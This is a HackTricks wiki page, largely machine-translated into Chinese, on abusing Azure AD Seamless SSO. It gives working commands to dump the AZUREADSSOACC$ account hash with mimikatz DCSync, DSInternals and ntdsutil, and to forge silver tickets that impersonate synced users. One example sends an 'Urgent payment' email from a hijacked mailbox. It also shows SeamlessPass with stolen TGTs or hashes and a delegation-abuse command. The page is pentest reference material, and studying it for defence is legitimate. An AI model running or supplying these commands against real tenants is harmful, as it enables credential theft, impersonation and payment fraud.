 # Az - Seamless SSO

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

[From the docs:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) 自动**在用户连接到公司网络的公司设备上自动登录**。启用后，**用户无需输入密码即可登录 Azure AD**，通常甚至无需输入用户名。此功能为用户提供了轻松访问基于云的应用程序的方式，而无需任何额外的本地组件。

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption><p><a href="https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works">https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso-how-it-works</a></p></figcaption></figure>

基本上，Azure AD Seamless SSO **在用户** **在本地域加入的 PC 上** **自动登录**。

它支持 [**PHS (密码哈希同步)**](phs-password-hash-sync.md) 和 [**PTA (透传身份验证)**](pta-pass-through-authentication.md)。

桌面 SSO 使用 **Kerberos** 进行身份验证。配置后，Azure AD Connect 在本地 AD 中创建一个名为 **AZUREADSSOACC`$`** 的 **计算机帐户**。`AZUREADSSOACC$` 帐户的密码在配置期间**以明文形式发送到 Azure AD**。

**Kerberos 票证**使用密码的 **NTHash (MD4)** 进行 **加密**，Azure AD 使用发送的密码解密票证。

**Azure AD** 暴露一个 **端点** (https://autologon.microsoftazuread-sso.com)，接受 Kerberos **票证**。域加入机器的浏览器将票证转发到此端点以实现 SSO。

### On-prem -> cloud

用户 **`AZUREADSSOACC$` 的密码从不更改**。因此，域管理员可以破坏该 **帐户的哈希**，然后使用它来 **创建银票** 以连接到 Azure，使用 **任何已同步的本地用户**：
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
使用该哈希，您现在可以**生成银票**：
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
To utilize the silver ticket, the following steps should be executed:

1. **启动浏览器：** 应启动 Mozilla Firefox。
2. **配置浏览器：**
* 导航到 **`about:config`**。
* 将 [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) 的首选项设置为指定的 [值](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically)：
* `https://aadg.windows.net.nsatc.net`
* `https://autologon.microsoftazuread-sso.com`
3. **访问Web应用程序：**
* 访问与组织的 AAD 域集成的 Web 应用程序。一个常见的例子是 [Office 365](https://portal.office.com/)。
4. **身份验证过程：**
* 在登录屏幕上，应输入用户名，密码字段留空。
* 要继续，请按 TAB 或 ENTER。

{% hint style="success" %}
这不会绕过启用的 MFA
{% endhint %}

#### 选项 2 无需 dcsync - SeamlessPass

也可以 **在没有 dcsync 攻击** 的情况下执行此攻击，以更隐蔽，如 [在这篇博客文章中解释](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/)。为此，您只需要以下之一：

* **被攻陷用户的 TGT：** 即使您没有，但用户被攻陷，您也可以使用许多工具中实现的假 TGT 委托技巧获取一个，例如 [Kekeo](https://x.com/gentilkiwi/status/998219775485661184) 和 [Rubeus](https://posts.specterops.io/rubeus-now-with-more-kekeo-6f57d91079b9)。
* **黄金票证**：如果您拥有 KRBTGT 密钥，您可以为被攻击用户创建所需的 TGT。
* **被攻陷用户的 NTLM 哈希或 AES 密钥：** SeamlessPass 将使用此信息与域控制器通信以生成 TGT。
* **AZUREADSSOACC$ 账户 NTLM 哈希或 AES 密钥：** 使用此信息和用户的安全标识符 (SID) 进行攻击，可以创建服务票证并与云进行身份验证（如前面的方法所示）。

最后，使用 TGT 可以使用工具 [**SeamlessPass**](https://github.com/Malcrove/SeamlessPass) 进行： 

{% code overflow="wrap" %}
```
seamlesspass -tenant corp.com -domain corp.local -dc dc.corp.local -tgt <base64_TGT>
```
{% endcode %}

有关将 Firefox 设置为与无缝 SSO 一起使用的更多信息，可以在 [**此博客文章中找到**](https://malcrove.com/seamlesspass-leveraging-kerberos-tickets-to-access-the-cloud/)。

#### ~~为仅云用户创建 Kerberos 票证~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

如果 Active Directory 管理员可以访问 Azure AD Connect，他们可以 **为任何云用户设置 SID**。这样，Kerberos **票证**也可以 **为仅云用户创建**。唯一的要求是 SID 是一个合适的 [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\))。

{% hint style="danger" %}
仅云管理员用户的 SID 现在 **被 Microsoft 阻止**。\
有关信息，请查看 [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### 本地 -> 云通过基于资源的受限委派 <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

任何可以管理计算机帐户 (`AZUREADSSOACC$`) 的人，在该帐户所在的容器或 OU 中，都可以 **配置基于资源的受限委派并访问它**。
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## 参考文献

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: 我在你的云中，阅读每个人的电子邮件 - 通过 Active Directory 黑客攻击 Azure AD](https://www.youtube.com/watch?v=JEIR5oGCwdg)

{% hint style="success" %}
学习和实践 AWS 黑客攻击：<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image.png" alt="" data-size="line">\
学习和实践 GCP 黑客攻击：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 **上关注我们** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
